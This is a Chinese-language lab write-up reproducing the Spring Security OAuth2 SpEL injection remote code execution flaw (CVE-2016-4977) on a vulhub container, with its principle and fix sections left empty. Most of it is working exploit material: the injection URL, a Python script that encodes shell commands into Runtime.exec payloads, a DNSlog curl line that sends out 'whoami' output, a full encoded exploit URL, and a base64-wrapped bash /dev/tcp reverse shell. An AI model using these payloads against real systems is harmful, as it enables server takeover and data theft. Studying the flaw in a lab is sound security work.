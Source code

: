 # Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）

### 1.1、漏洞描述

是该版本的Spring的一个错误页面，存在参数获取未进行过滤，导致可以直接对服务器执行系统权限

### 1.2、漏洞原理



### 1.3、漏洞等级

高

### 1.4、影响版本

Spring Security OAuth 1.0.0到1.0.5
Spring Security OAuth 2.0.0到2.0.9
Spring Security OAuth 2.0到2.0.14
Spring Security OAuth 2.1到2.1.1
Spring Security OAuth 2.2到2.2.1
Spring Security OAuth 2.3到2.3.2

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/spring/CVE-2016-4977

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到

![image-20240414152451052](./imgs/image-20240414152451052.png)

#### 2、漏洞扫描



#### 3、漏洞验证

##### 简单验证

SpEL表达式注入

`/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`

输入admin/admin

![image-20240414152635555](./imgs/image-20240414152635555.png)

可以看到233*233被执行

触发点在：**${233\*233}**

[原理参考](https://www.cnblogs.com/litlife/p/10380701.html)

![image-20240414152705656](./imgs/image-20240414152705656.png)

##### dnsLog验证

![image-20240414153502130](./imgs/image-20240414153502130.png)

```bash
curl `whoami`.c941tf.dnslog.cn
```

然后进行base64编码

![image-20240414154946440](./imgs/image-20240414154946440.png)

```bash
bash -c {echo,Y3VybCBgd2hvYW1pYC5jOTQxdGYuZG5zbG9nLmNu} |{base64,-d}|{bash,-i}
```

然后使用如下poc

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)  
```

![image-20240414155128000](./imgs/image-20240414155128000.png)

替换上面的 223*223

```
http://172.16.31.3:8080/oauth/authorize?response_type=${${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(98).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(99)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(111)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(51)).concat(T(java.lang.Character).toString(86)).concat(T(java.lang.Character).toString(121)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(66)).concat(T(java.lang.Character).toString(103)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(50)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(118)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(87)).concat(T(java.lang.Character).toString(49)).concat(T(java.lang.Character).toString(112)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(67)).concat(T(java.lang.Character).toString(53)).concat(T(java.lang.Character).toString(106)).concat(T(java.lang.Character).toString(79)).concat(T(java.lang.Character).toString(84)).concat(T(java.lang.Character).toString(81)).concat(T(java.lang.Character).toString(120)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(89)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(90)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(53)).concat(T(java.lang.Character).toString(122)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(71)).concat(T(java.lang.Character).toString(57)).concat(T(java.lang.Character).toString(110)).concat(T(java.lang.Character).toString(76)).concat(T(java.lang.Character).toString(109)).concat(T(java.lang.Character).toString(78)).concat(T(java.lang.Character).toString(117)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(32)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(101)).concat(T(java.lang.Character).toString(54)).concat(T(java.lang.Character).toString(52)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(100)).concat(T(java.lang.Character).toString(125)).concat(T(java.lang.Character).toString(124)).concat(T(java.lang.Character).toString(123)).concat(T(java.lang.Character).toString(98)).concat(T(java.lang.Character).toString(97)).concat(T(java.lang.Character).toString(115)).concat(T(java.lang.Character).toString(104)).concat(T(java.lang.Character).toString(44)).concat(T(java.lang.Character).toString(45)).concat(T(java.lang.Character).toString(105)).concat(T(java.lang.Character).toString(125)))}}&client_id=acme&scope=openid&redirect_uri=http://test
```

![image-20240414155311029](./imgs/image-20240414155311029.png)

刷新dnslog解析



 

### 1.6、深度利用

#### 1、反弹Shell

```
bash -i >& /dev/tcp/172.16.31.4/4567 0>&1
```

进行编码

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuNC80NTY3IDA+JjE=} |{base64,-d}|{bash,-i}
```



### 1.7、修复建议